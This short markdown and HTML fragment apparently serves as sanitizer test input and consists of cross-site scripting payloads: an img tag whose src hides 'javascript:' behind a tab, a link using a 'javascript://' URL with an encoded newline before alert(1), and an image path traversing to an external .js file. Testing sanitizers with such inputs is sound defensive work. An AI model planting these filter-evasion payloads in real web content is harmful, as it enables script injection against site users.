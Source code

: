 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="javas	cript:alert(1)" width="javas	cript:alert(1)">

<a href="javascript://%0aalert(1)">XSS</a>
